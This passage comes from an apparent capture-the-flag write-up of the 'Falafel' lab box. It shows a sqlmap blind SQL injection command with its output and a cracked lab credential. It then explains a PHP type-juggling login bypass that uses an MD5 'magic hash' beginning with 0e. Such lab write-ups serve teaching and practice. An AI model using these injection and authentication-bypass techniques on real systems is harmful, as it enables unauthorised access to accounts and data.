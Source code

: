```bash
sqlmap -r req.txt --level 5 --risk 3 --batch --string "Wrong identification" -p username --technique=B --privileges

[16:12:13] [INFO] retrieved: 'moshe'@'localhost'
[16:12:18] [INFO] fetching number of privileges for user 'moshe'
[16:12:18] [INFO] retrieved: 1
[16:12:18] [INFO] fetching privileges for user 'moshe'
[16:12:18] [INFO] retrieved: USAGE
database management system users privileges:

[*] %moshe% [1]:
    privilege: USAGE

```

This mean we do not have any other privileges other than reading the database.

We have chris’s cracked hash. Let’s login as chris:

```bash
chris:juggling
```

![image.png]({{ site.baseurl }}/assets/falafel/image%208.png)

The passage here is alluding to type juggling done by php.

In PHP, the `==` operator (loose comparison) does **type juggling**:

- If one side is a number and the other is a string, PHP will try to convert the string into a number before comparing.
- If both look like numbers in scientific notation (e.g., `0e12345`), PHP interprets them as floats.

This can cause **logic flaws in authentication or hash checks**.

Since the password for admin being with 0e, which is the mathematical notation for exponential. If php is using the `==` operator, we just have to find another string, that when converted into MD5 hash outputs 0e something. 

So let’s try:

```bash
QLTHNDT

echo -n 'QLTHNDT' | md5sum
0e405967825401955372549139051580  -
```

![image.png]({{ site.baseurl }}/assets/falafel/image%209.png)

Success. We have a file upload page where we can upload image files. Navigating to the profile, we find: 

![image.png]({{ site.baseurl }}/assets/falafel/image%2010.png)
